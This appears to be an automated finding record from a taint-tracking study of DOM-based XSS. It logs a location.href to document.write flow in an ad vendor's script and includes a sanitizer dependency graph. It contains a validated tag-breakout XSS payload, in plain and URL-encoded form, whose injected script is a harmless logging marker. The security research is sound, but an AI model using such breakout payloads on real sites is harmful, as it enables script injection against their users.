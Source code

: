 // Finding: 77904afd-45a0-4cdc-9cb9-bc4f6c001947
// Finding.url: https://example154.com/tracking-covid-19-with-excel
// Finding.parentloc: https://example154.com/tracking-covid-19-with-excel##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('fc696185be9643359928bf3340751861')</script><!--/*
// Finding.domain: example154.com
// Finding.base_domain: example154.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=103027&cbuster=1743134467&pubUrl=https://example154.com/tracking-covid-19-with-excel%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27fc696185be9643359928bf3340751861%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED] - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 433
// Finding.end: 610
// Finding.original_uuid: 2b4464f4-f446-4592-9b68-e5e79d9d4ef5
// Finding.TwentyFiveMillionFlowsId: -929345182
// Finding.script: https://live.example5.com/live/liveView.php?s=103027&cbuster=1743134467&pubUrl=https://example154.com/tracking-covid-19-with-excel%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27fc696185be9643359928bf3340751861%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]
// Finding.line: 914
// Exploit.uuid: fc696185-be96-4335-9928-bf3340751861
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 49
// Exploit.replace_begin_url: 49
// Exploit.replace_end_url: 49
// Exploit.replace_begin_param: 250
// Exploit.replace_end_param: 250
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1709519641
// DepGraph.sanitizer_hash: -1582645227

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=103027&cbuster=17....%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&cbuster=1621066701"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 750"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 350"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: &csuuid=609f83cd9e41a"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....0&floatCloseBtn=1&flowMode=below&flowCloseButtonPosition=right"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n23 -> n21;
n24 -> n23;
}